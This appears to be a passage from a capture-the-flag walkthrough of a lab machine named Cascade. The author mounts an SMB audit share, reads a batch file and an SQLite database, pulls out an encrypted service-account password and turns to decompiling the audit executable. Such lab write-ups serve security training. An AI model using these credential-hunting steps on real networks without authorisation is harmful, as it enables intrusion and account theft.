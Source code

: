 Seems like we have access to the `Audit$` share. Let us mount the share again.

```bash
root@darkness:~# umount /mnt/cascade; mount -o user=s.smith -t cifs //10.10.10.182/Audit\$ /mnt/cascade
Password for s.smith@//10.10.10.182/Audit$:  ********
```

Now that we have mounted the share, let us look into the files we have access to.

```bash
root@darkness:/mnt/cascade# find .
.
./CascAudit.exe
./CascCrypto.dll
./DB
./DB/Audit.db
./RunAudit.bat
./System.Data.SQLite.dll
./System.Data.SQLite.EF6.dll
./x64
./x64/SQLite.Interop.dll
./x86
./x86/SQLite.Interop.dll
```

We have a couple of interesting files here.

```bash
root@darkness:/mnt/cascade# cat ./RunAudit.bat
CascAudit.exe "\\CASC-DC1\Audit$\DB\Audit.db"
```

Seems like the `CascAudit.exe` is run with the `Audit.db` file as an argument. Let us view the Audit.db file.

```bash
root@darkness:/mnt/cascade# file DB/Audit.db
DB/Audit.db: SQLite 3.x database, last written using SQLite version 3027002
sqlite3 DB/Audit.db 
SQLite version 3.31.1 2020-01-27 19:55:54
Enter ".help" for usage hints.
sqlite> .tables
DeletedUserAudit  Ldap  Misc
sqlite> select * from Ldap
   ...> ;
1|ArkSvc|BQO5l5Kj9MdErXx6Q6AGOw==|cascade.local
```

Seems like we have another password, however Base64-decrypting the password does not give any useful output.

```bash
echo -n BQO5l5Kj9MdErXx6Q6AGOw== | base64 -d
D|zC;
```

Let us decompile `CascAudit.exe` using either [dotPeek](https://www.jetbrains.com/decompiler/) or [ILSpy](https://github.com/icsharpcode/ILSpy).
